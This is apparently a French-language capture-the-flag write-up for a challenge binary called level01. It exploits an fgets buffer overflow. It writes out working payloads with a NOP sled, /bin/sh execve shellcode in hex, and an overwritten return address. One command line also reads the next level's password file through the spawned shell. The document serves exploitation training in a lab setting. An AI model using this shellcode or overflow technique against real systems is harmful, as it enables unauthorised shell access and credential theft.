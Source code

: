 level01:

On a un exécutable qui demande un username et un mot de passe. En explorant le binaire avec Ghidra on peut voir que le username est dat_wil et le mdp admin. Mais le programme indique wrong password même lorsqu'on entre admin...

Dans tous les cas il n'y a aucun appel à un admin shell donc on va devoir injecter notre propre shellcode. On remarque le fgets pour obtenir le mot de passe qui n'est pas sécurisé, il autorise une écriture de 100 caractères dans un buffer de 64.

On connait la musique, on prend un générateur de pattern et on voit que l'offset est à 80. On met un breakpoint juste après le fgets (b *0x08048579) sur le buffer qui nous intéresse, on lance le programme avec plein de A et on cherche a partir de quelle adresse ils apparaissent > 0xffffd6c0

On va print le user name puis une string de 80 caractères composés d'une nopsled puis de notre shellcode de 48 char puis des 4 char de l'adresse à la fin.
80 - (28 + 4) = 48 pour la nopsled

(python -c 'print "dat_wil\n" + "\x90" * 48 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\xc0\xd6\xff\xff"') > /tmp/wow
cat /tmp/wow - | ./level01

Ca ne marche pas. Bon. Premièrement on remarque que si on run le programme dans gdb l'adresse d'eip n'est pas bien override. Il faut que la nopsled soit à 52 à la place. Et si le dernier byte de l'adresse d'override d'EIP est supérieur à \xbb il est automatiquement set à \xfd (donc on skip notre code). Peut-être une protection de mémoire ?

Dans tous les cas on peut également essayer de placer le shellcode dans le premier buffer (comme strcmp va s'arrêter après dat_wil, et que le buffer est large). De plus c'est une variable globale donc on aura peut-être moins de problème de pointage.

En regardant avec Ghidra on voit que la var a_user_name a l'adresse 0x0804a040, + 7 pour skip dat_wil 0x0804a048 \x48\xa0\x04\x08

(python -c 'print "dat_wil" + "\x90" * 50 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\n" + "A" * 80 + "\x48\xa0\x04\x08"') > /tmp/wow

(cat /tmp/wow; cat /home/users/level02/.pass) | ./level01

C'est bon on a notre password